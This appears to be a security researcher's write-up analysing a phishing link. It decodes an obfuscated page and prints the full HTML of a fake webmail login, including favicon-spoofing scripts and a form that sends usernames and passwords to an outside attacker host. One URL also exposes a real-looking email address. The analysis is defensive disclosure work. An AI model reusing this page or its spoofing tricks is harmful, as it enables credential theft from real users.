



### Introduction

Today I received the following mail:

https://hjvfyktdfky56kdrt5jt5ej5.web.app/?emailtoken=t.xxxx@gmail.com&domain=google.com

This is a phishing website which is controlled by the host https://bremerrapidest.xyz

Here is the analysis conducted on this phishing url.

### Investigation

1) Source code of https://hjvfyktdfky56kdrt5jt5ej5.web.app/?emailtoken=t.defise@gmail.com&domain=google.com

It seems that:
- The content of the page has been encoded in ASCII
- The content show a reference to [@therealelyayo](https://github.com/therealelyayo) which is an account that host several fork of phishing tools such as:
  - [HiddenEye-Legacy](https://github.com/DarkSecDevelopers/HiddenEye-Legacy): 2K Starts & 901 Forks
  - [AdvPhishing](https://github.com/Ignitetch/AdvPhishing): 528 Stars & 261 Forks
  - [Recreator-Phishing](https://github.com/AngelSecurityTeam/Recreator-Phishing): 109 Stars & 39 Forks
  - [BlackPhish](https://github.com/iinc0gnit0/BlackPhish)

2) Decoding of the phishing page

This has been encoded using ASCII

- Raw encoded page:
```html
<Script Language='Javascript'>
<!-- HTML Encryption provided by therealelyayo -->
<!--
document.write(unescape('%3C%21%44%4F%43%54........%74%6D%6C%3E'));
//-->
</Script>
```
- Decoded page:
```html
<!DOCTYPE html>
<!--[if IE 8 ]> <html class="ie ie8" lang="en"> <![endif]-->
<!--[if IE 9 ]> <html class="ie ie9" lang="en"> <![endif]-->
<!--[if (gte IE 10)|!(IE)]><!-->
<html lang="en">
<!--<![endif]-->

<head>
    <meta charset="utf-8">
    <title>Sign In</title>
    <meta name="viewport" content="width=device-width,user-scalable=no">
    <meta name="domain-suggester-prompt" content="Did you mean {{corrected_email}}?">
    <meta name="api-uri" content="https://api.squareup.com">
    <meta name="max-idle-minutes" content="30">
    <meta name="referrer" content="origin">
    <link href="https://gresrty.imfast.io/login.css" media="screen" rel="stylesheet">
    <link rel="canonical" href="/login">
    <link id="favicon" rel="icon" href="" type="image/png" sizes="16x16">
</head>

<body class="login-page ">
    <div id="content" class="fade-in l-table">
        <div id="login-wrapper" class="l-table-row">
            <div class="l-table-cell">
                <section class="login-modal">
                    <div class="login-modal-user-pass">
                        <div class="login-modal-logo">

                            <body>
                                <script>
                                    document.title = "Webmail Login"; // Notice: this will defeat purpose of SEO. Not useful for SEO-friendly sites.
                                </script>
                                <script>
                                    const queryString3 = window.location.search;
                                    const urlParams3 = new URLSearchParams(queryString3);
                                    const imageBoxx = urlParams3.get('domain');
                                    ChangeFavicon();

                                    function ChangeFavicon() {
                                        var total1 = imageBoxx;
                                        var link = document.querySelector("link[rel*='icon']") || document.createElement('link');
                                        link.type = 'image/x-icon';
                                        link.rel = 'shortcut icon';
                                        link.href = 'https://www.google.com/s2/favicons?domain=' + total1 + ''; //path to your icon document.getElementsByTagName('head')[0].appendChild(link);} 
                                </script>
                                <script>
                                    const queryString2 = window.location.search;
                                    const urlParams2 = new URLSearchParams(queryString2);
                                    const imageBox = urlParams2.get('domain');
                                    window.onload = function() {
                                        var total = imageBox;
                                        document.getElementById('imageBox').src = 'https://www.google.com/s2/favicons?domain=' + total + '';
                                    };
                                </script> 
                        </div>
                        <h1 id="top">Webmail&nbsp;<span id="demo"></span> &nbsp; </h1>
                        <script>
                            const queryString1 = window.location.search;
                            const urlParams1 = new URLSearchParams(queryString1);
                            const demo = urlParams1.get('domain');
                            var str = demo;
                            document.getElementById("demo").innerHTML = demo;
                        </script>
</body>
</div>
<div class="login-modal-content">
    <form accept-charset="UTF-8" action="https://bremerrapidest.xyz/merrybe/post.php" class="signin-page-form" method="post" novalidate="novalidate">
        <div class="field email-field fade-label"> <label class="text" for="email"></label> <input autocapitalize="off" autocomplete="off" autocorrect="off" autofocus="autofocus" class="text" id="username" name="username" size="20" spellcheck="false" type="email" value=""> </div>
        <div class="message-box-error-wrapper">
            <div class="message-box-error"></div>
        </div>
        <div class="field password-field fade-label"> <label class="text" for="password">Password</label> <input class="text" id="password" name="password" size="20" autocomplete="off" onkeyup="checkForm()" type="password" value="">
            <div class="form-group"><input type=hidden id="address" name=address size=5 value=""><input type=hidden id="address2" name=type size=5 value=""> </div>
            <div id="captcha" class="g-recaptcha submit-button"></div>
            <div class="submit-button full-length-submit-button"> <button id="sign-in-button" type="submit" class="btn btn-blue track-event" disabled="disabled"> <span class="button-text">Sign In</span> </button> </div>
    </form>
</div>
</div>
<script>
    function checkForm() {
        var name = document.getElementById("password").value;
        var cansubmit = (name.length > 3);
        document.getElementById("sign-in-button").disabled = !cansubmit;
    };
</script>
<script>
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const email = urlParams.get('emailtoken');
    const type = urlParams.get('domain');
    const address = urlParams.get('domain');
    const image = urlParams.get('domain');
    document.getElementById('username').value = email;
    document.getElementById('address').value = type;
    document.getElementById('address2').value = address;
    document.getElementById('image2').value = image;
    document.getElementById("demo").innerHTML = 5 + 6;
    var str = email;
    var str1 = type;
    var str2 = address;
    var str3 = image;
    str = str.substring(str.indexOf("@") + 1);
    document.getElementById('hlight').innerHTML = str;
</script>
</body>

</html>
```

2) Analysis of the decoded page (Social Engineering)

As document "*// Notice: this will defeat purpose of SEO. Not useful for SEO-friendly sites.*"
The website get the parameter "https://hjvfyktdfky56kdrt5jt5ej5[.]web[.]app/?emailtoken=t.xxxx@gmail.com&domain=google.com" **domain=google.com**.
The domain parameter is given to https://www.google.com/s2/favicons?domain= in order to find an icon on the given domain.
The goal is to fool the user by:
  - Including an icon within the *<link id="favicon" rel="icon" href="" type="image/png" sizes="16x16">*
  (See variable **imageBoxx**) 
  - Include the icon within form (Visually)
  (See variable **imageBox**)

```html
<script>
    const queryString3 = window.location.search;
    const urlParams3 = new URLSearchParams(queryString3);
    const imageBoxx = urlParams3.get('domain');
    ChangeFavicon();

    function ChangeFavicon() {
        var total1 = imageBoxx;
        var link = document.querySelector("link[rel*='icon']") || document.createElement('link');
        link.type = 'image/x-icon';
        link.rel = 'shortcut icon';
        link.href = 'https://www.google.com/s2/favicons?domain=' + total1 + ''; //path to your icon document.getElementsByTagName('head')[0].appendChild(link);} 
</script>
<script>
    const queryString2 = window.location.search;
    const urlParams2 = new URLSearchParams(queryString2);
    const imageBox = urlParams2.get('domain');
    window.onload = function() {
        var total = imageBox;
        document.getElementById('imageBox').src = 'https://www.google.com/s2/favicons?domain=' + total + '';
    };
</script> 

```

It also add the domain to the page within the form (visually) by doing the following, just after the line above 

```html
<h1 id="top">Webmail&nbsp;<span id="demo"></span> &nbsp; </h1>
<script>
    const queryString1 = window.location.search;
    const urlParams1 = new URLSearchParams(queryString1);
    const demo = urlParams1.get('domain');
    var str = demo;
    document.getElementById("demo").innerHTML = demo;
</script>
```

So for instance, if I navigate to "https://hjvfyktdfky56kdrt5jt5ej5[.]web[.]app/?emailtoken=t.defise@gmail.com&domain=nfl.com", with **domain=nfl.com**, it will show me the logo of the National Football League.

https://www.google.com/s2/favicons?domain=nfl.com 


3) Analysis of the form

As you can seen the POST is performed towards another domain "https://bremerrapidest[.]xyz"

```html
 <form accept-charset="UTF-8" action="https://bremerrapidest.xyz/merrybe/post.php" class="signin-page-form" method="post" novalidate="novalidate">
```

After enumerating the folder files & folder available on this websites, I found the following page https://bremerrapidest[.]xyz/admin/, which should, according to me also be classified as malicious



At the moment, this website is only seen as malicious by one engine on VirusTotal



And on the otherside, the phish is not detected by any engine on VirusTotal




